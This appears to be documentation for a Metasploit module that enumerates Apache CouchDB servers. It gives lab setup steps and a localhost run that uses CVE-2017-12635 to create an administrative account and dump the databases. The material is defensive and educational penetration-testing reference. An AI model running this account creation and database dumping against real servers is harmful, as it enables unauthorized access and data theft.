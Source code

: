 ## Vulnerable Application

Apache CouchDB is a nosql database server which communicates over HTTP.  This module will enumerate the server and databases hosted on it.

The following was done on Ubuntu 16.04, and is largely base on [1and1.com](https://www.1and1.com/cloud-community/learn/database/couchdb/install-and-use-couchdb-on-ubuntu-1604/):

  1. `sudo apt install software-properties-common`
  2. `sudo add-apt-repository ppa:couchdb/stable`
  3. `sudo apt update`
  4. `sudo apt install couchdb`
  5. Reconfigure couchdb to listen to all interfaces. Edit `/etc/couchdb/local.ini`. Under `[httpd]` add the following line: `bind_address = 0.0.0.0`
  6. Restart the service: `sudo service couchdb restart`

## Verification Steps

  1. Install and configure couchdb
  2. Start msfconsole
  3. Do: `auxiliary/scanner/couchdb/couchdb_enum`
  4. Do: `run`

## Options

### SERVERINFO

  If set to `true`, the server info will also enumerated and set in msf's DB.  Defaults to `false`.

### CREATEUSER

  If set to `true`, the server info will attempt to create an account in CouchDB using configured credentials (limited to CVE-2017-12635 conditions). Defaults to `false`.

## Scenarios

Dumping databases with `SERVERINFO` and `CREATEUSER` set:

```
msf > use auxiliary/scanner/couchdb/couchdb_enum
msf auxiliary(scanner/couchdb/couchdb_enum) > options

Module options (auxiliary/scanner/couchdb/couchdb_enum):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CREATEUSER    false            yes       Create Administrative user
   HttpPassword  IJvoGDWAWzQo     yes       CouchDB Password
   HttpUsername  CQuXQnVwQAow     yes       CouchDB Username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target address range or CIDR identifier
   ROLES         _admin           yes       CouchDB Roles
   RPORT         5984             yes       The target port (TCP)
   SERVERINFO    false            yes       Print server info
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /_all_dbs        yes       Path to list all the databases
   VHOST                          no        HTTP server virtual host

msf auxiliary(scanner/couchdb/couchdb_enum) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/couchdb/couchdb_enum) > set serverinfo true
serverinfo => true
msf auxiliary(scanner/couchdb/couchdb_enum) > set createuser true
createuser => true
msf auxiliary(scanner/couchdb/couchdb_enum) > set verbose true
verbose => true
msf auxiliary(scanner/couchdb/couchdb_enum) > check

[+] 127.0.0.1:5984 - Found CouchDB version 2.1.0
[*] 127.0.0.1:5984 - The target appears to be vulnerable.
msf auxiliary(scanner/couchdb/couchdb_enum) > run

[+] 127.0.0.1:5984 - Found CouchDB version 2.1.0
[+] 127.0.0.1:5984 - User CQuXQnVwQAow created with password IJvoGDWAWzQo. Connect to http://127.0.0.1:5984/_utils/ to login.
[+] 127.0.0.1:5984 - {
  "couchdb": "Welcome",
  "version": "2.1.0",
  "features": [
    "scheduler"
  ],
  "vendor": {
    "name": "The Apache Software Foundation"
  }
}
[*] 127.0.0.1:5984 - Enumerating Databases...
[+] 127.0.0.1:5984 - Databases:

[
  "_global_changes",
  "_replicator",
  "_users"
]

[+] 127.0.0.1:5984 - File saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb.enum_790231.bin
[+] 127.0.0.1:5984 - _global_changes saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._global__841794.bin
[+] 127.0.0.1:5984 - _replicator saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._replica_022445.bin
[+] 127.0.0.1:5984 - _users saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._users_671128.bin
[*] Auxiliary module execution completed
msf auxiliary(scanner/couchdb/couchdb_enum) >
```
